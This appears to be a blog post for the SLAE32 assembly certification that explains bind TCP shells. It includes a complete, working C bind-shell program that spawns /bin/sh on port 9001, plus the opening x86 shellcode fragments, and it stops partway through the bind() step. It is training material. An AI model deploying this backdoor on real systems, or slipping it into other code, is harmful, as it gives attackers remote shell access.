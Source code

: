 ```yaml
---
title: SLAE32 - Assignment#1 [Bind TCP Shell]
author: bigb0ss
date: 2020-12-12 13:26:00 +0800
categories: [SLAE32]
tags: [slae32, assembly, x86, Bind TCP Shell]
image: /assets/img/post/slae32/slae32.png
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1542

# Assignement #1 
* Create a Shell_Bind_TCP shellcode
	- Binds to a port
	- Execs Shell on incoming connection

* Port number should be easily configurable


# What is a Bind Shell?
Bind TCP opens up a port on the victim system. If an attacker could exploit a vulnerability on the victim system, she can implant a bind shell and connect to it from the remote attaking box. However, due to a firewall and detection controls, reverse TCP shell is preferrable over bind TCP shell thesedays.

![image](/assets/img/post/slae32/assignment1/01.png)


# Socket Programming
Before creating our Bind TCP Shell in shellcode, we need to understand the Socket Programming. 

> **NOTE**: Socket programming is a way of connecting two nodes on a network to communicate with each other. 

![image](/assets/img/post/slae32/assignment1/02.png)

To better understand the Bind TCP, let's create a Bind TCP Shell in a higher programming language. We will use `C`:

```c++
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <stdlib.h>
#include <unistd.h>

int main()
{
	int sockfd, acceptfd;
	int port = 9001;

	// Server Address struct
	struct sockaddr_in addr;
	addr.sin_family = AF_INET; 
	addr.sin_port = htons(port);
	addr.sin_addr.s_addr = INADDR_ANY;

	// 1) Socket Creation (sys_socket 1)
	sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// 2) Bind() Syscall (sys_bind 2)
	bind(sockfd, (struct sockaddr *) &addr, sizeof(addr));
	
	// 3) Listen() Syscall (sys_listen 4)
	listen(sockfd, 0);

	// 4) Accetpt() Syscall (sys_accept 5)
	acceptfd = accept(sockfd, NULL, NULL);

	// 5) Dup2() Syscall
	dup2(acceptfd, 0);	// stdin
	dup2(acceptfd, 1);	// stdout
	dup2(acceptfd, 2);	// stderr

	// 6) Execve() Syscall
	execve("/bin/sh", NULL, NULL);

	return 0;
}
```

Let's compile this: 

```console
gcc bind-tcp-shell.c -o bind-tcp-shell
```

The compiled binary can successfully open up a bind shell, and we can connect to it via `nc`.

![image](/assets/img/post/slae32/assignment1/03.png)


# Shellcode 

For our Bind TCP Shell shellcode, we need to use all those `syscalls`:
* 1) Socket - Initiating the socket connection
* 2) Bind - The `bind()` assigns the address specified by addr to the socket referred to by the file descriptor `sockfd`. 
* 3) Listen - Listen for the incoming connection
* 4) Accept - The  `accept()`  system call is used with connection-based socket types (SOCK_STREAM, SOCK_SEQPACKET)
* 5) Dup2 - Manages `stdin`, `stdout` and `stderr` for the file descriptor. This is necessary for input and output redirection. 
* 6) Execve - Execute a command (`/bin/sh` to spawn a shell)

## Syscall + Function Calls

First, we need to collect arguemnts for `socketcall()` as well as other `syscalls`. 

> **NOTE**: socketcall()  is  a  common  kernel  entry point for the socket system calls.

By querying `/usr/include/i386-linux-gnu/asm/unistd_32.h`, we can collect the following args for the `syscalls`:

```console
#define __NR_socketcall	102 --> Hex: 0x66
#define __NR_bind	361 --> Hex: 0x169
#define __NR_listen	363 --> Hex: 0x16b
#define __NR_accept4	364 --> Hex: 0x16c
#define __NR_dup2	63  --> Hex: 0x3f
#define __NR_execve	11  --> Hex: 0xb
```

Additionally, by looking at `/usr/include/linux/net.h`, we can also obtain args for the function calls:

```console
root@kali:~/Documents/SLAE32/Exam/Assignement1# cat /usr/include/linux/net.h | grep SYS
#define SYS_SOCKET	1		/* sys_socket(2)	*/
#define SYS_BIND	2		/* sys_bind(2)	*/
#define SYS_CONNECT	3		/* sys_connect(2)	*/
#define SYS_LISTEN	4		/* sys_listen(2)	*/
#define SYS_ACCEPT	5		/* sys_accept(2)	*/
#define SYS_GETSOCKNAME	6		/* sys_getsockname(2)	*/
#define SYS_GETPEERNAME	7		/* sys_getpeername(2)	*/
#define SYS_SOCKETPAIR	8		/* sys_socketpair(2)	*/
#define SYS_SEND	9		/* sys_send(2)	*/
#define SYS_RECV	10		/* sys_recv(2)	*/
#define SYS_SENDTO	11		/* sys_sendto(2)	*/
#define SYS_RECVFROM	12		/* sys_recvfrom(2)	*/
#define SYS_SHUTDOWN	13		/* sys_shutdown(2)	*/
#define SYS_SETSOCKOPT	14		/* sys_setsockopt(2)	*/
#define SYS_GETSOCKOPT	15		/* sys_getsockopt(2)	*/
#define SYS_SENDMSG	16		/* sys_sendmsg(2)	*/
#define SYS_RECVMSG	17		/* sys_recvmsg(2)	*/
#define SYS_ACCEPT4	18		/* sys_accept4(2)	*/
#define SYS_RECVMMSG	19		/* sys_recvmmsg(2)	*/
#define SYS_SENDMMSG	20		/* sys_sendmmsg(2)	*/
```

## Initialization

First, let's zero out some of the registers we are going to use:

```s
global _start

section		.text
_start:

xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx
```

## Socket()

Let's create the `socket()` shellcode:

```s
; 1) Socket Creation
; sockfd = socket(AF_INET, SOCK_STREAM, 0);

mov al, 0x66		; #define __NR_socketcall 102	--> Hex: 0x66
mov bl, 0x1			; #define SYS_SOCKET 1
push edx			; int protocol = 0
push ebx			; int SOCK_STREAM = 1
push 0x2			; int AF_INET = 2
mov ecx, esp		; Move stack pointer to ECX
int 0x80			; Execute
mov edi, eax		; Save the socketcall file descriptor to EDI
```

## Bind()

Let's create the `bind()` shellcode:

```s
; 2) Bind
; bind(sockfd, (struct sockaddr *) &addr, sizeof(addr));
;
; 	struct sockaddr_in addr;
;	addr.sin_family = AF_INET; 
;	addr.sin_port = htons(port);
;	addr.sin_addr.s_addr = INADDR_ANY;


```








